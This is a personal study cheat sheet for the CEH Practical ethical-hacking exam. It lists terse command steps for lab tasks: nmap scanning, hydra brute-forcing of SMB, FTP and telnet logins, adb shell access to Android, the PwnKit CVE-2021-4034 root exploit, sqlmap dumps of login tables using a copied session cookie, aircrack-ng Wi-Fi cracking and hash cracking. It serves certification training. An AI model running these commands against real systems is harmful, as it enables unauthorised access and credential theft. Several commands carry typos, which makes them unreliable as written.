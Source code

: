 # CEH PRACTICAL
#  FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

#  WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

#  SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

#  Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

#  SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

#  REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

#  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

#  FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

#  PRIVILEGE ESCALATION
* login with RDP
* terminal
* mkdir /tmp/pwnkit
* mv CVE-2021-4034 /tmp/pwnkit/
* cd /tmp
* cd pwnkit
* cd CVE-2021-4034/
* make
* ./CVE-2021-4034 

#  ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

#  DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

#  SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

#  SQL BURPSUITE
* open site
* meneu > preferences > search proxy > manual proxy > http proxy 127.0.0.1 > port 8080 > check also use this proxy for ftp
* burp suite > temp project > burp defaults > start burp >
* Terminal
* sqlmap -r (burp file directorry) --dbs
* sqlmap -r (burp file directorry) --dbs -D (database namme) --tables --columns
* sqlmap -r (burp file directorry) --dbs -D (database namme) --tables -T (table name) --dump

#  FILE INCLUSION/UPLOAD

#  SQLMAP

#  HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

#  IOT TRAFFIC
* open the file in wireshark
* mqtt (in the filter option) 
* click on publish message
* mqtt protocol

#  WIFI
* aircrack-ng -w(password file directory) (file directory) 

#  njRAT
* open njRAT 
* search and download the file

#  VERACRYPT
* crack the hash first
* open veracrypt and use the cracked hash as passwors
